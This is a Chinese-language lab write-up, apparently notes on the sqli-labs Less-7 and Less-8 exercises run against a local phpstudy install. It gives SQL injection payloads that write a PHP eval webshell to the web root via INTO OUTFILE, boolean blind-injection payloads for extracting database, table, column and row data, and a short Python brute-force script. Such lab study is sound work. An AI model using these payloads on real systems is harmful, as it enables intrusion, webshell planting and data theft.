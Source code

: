 使用的环境是phpstudy，需要修改环境里mysql配置文件，my.ini文件

`找到my.ini文件，查找secure_file_priv参数，将前面的分号去掉，如果没有就添加secure_file_priv=""这行`

- 判断字段数：`?id=1')) order by 3--+`
- 注入一句话木马：`?id=1'))UNION SELECT 1,2,'<?php @eval($_post[“mima”])?>' i nto outfile "F:\\PHP\\phpstudy\\phpstudy_2018\\PHPTutorial\\WWW\\sqli\\Less-7\\yijuhua.php"--+` 这里使用2个反斜杠的原因是转义
- 接着使用一句话木马连接就好

## Less-8

##### 注入类型

布尔型盲注

##### 注入点

- 输入`?id=1 and 1=2`，页面虽然没有具体回显，但也没有报错，判断是字符串型注入
- 再输入`?id=1'`，页面没有回显了，再输入`?id=1'#`，页面有回显，说明就是应该就是字符串单引号注入了

所以可以使用`'`来闭合它然后自己添加语句

##### 注入方式

python脚本盲注（布尔型）

- 因为页面没有报错信息，语句错误时没有回显，语句正确时有回显

- 有无回显代表了语句是否错误，说明可以用布尔盲注来进行注入

- ```php
  length()函数：返回字符串str的长度，以字节为单位
  ascii()函数：返回字符串的ascii值
  substr()函数：用来截取数据库某一列字段中的一部分，
  substr(pos,len)表示从pos开始的位置，截取len个字符(空白也算字符)
  limit用法:limit m,n表示从m+1开始取n条
  ```

  

##### 注入步骤

- 爆数据库：`payload：1'and length(database())={}#`判断数据库的长度，正常回显，那么就是数据库长度正常

  `payload：1' and ascii(substr(database(),1,1)) =115 #`判断数据库的第一个字母，回显正常就是正确的，不断尝试。(第一个1代表第几个字母)

- 爆数据表：`payload：1' and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))<113 #`操作同爆库名一样，需要不断尝试（先使用大于小于来大致判断位置）
- 爆字段：`payload：1' and ascii(substr((select column_name from information_schema.columns  where table_name='表名' limit 0,1),1,1))<113 #`（先使用大于小于来大致判断位置）
- 爆数据：`payload：1' and ascii(substr((select concat(列1,0x3a,列2..) from 表名 limit 0,1),1,1))<113 #`

#### python脚本

```python
import requests
url = "http://localhost/sqli/Less-8/"#url
for i in range(0,10):#具体想判断的数值
    parm = {"id": "1'and length(database())={}#".format(i)}#payload
    req = requests.get(url, params=parm)
    if "You are in..........." in req.text:
        print(i)
        break
```
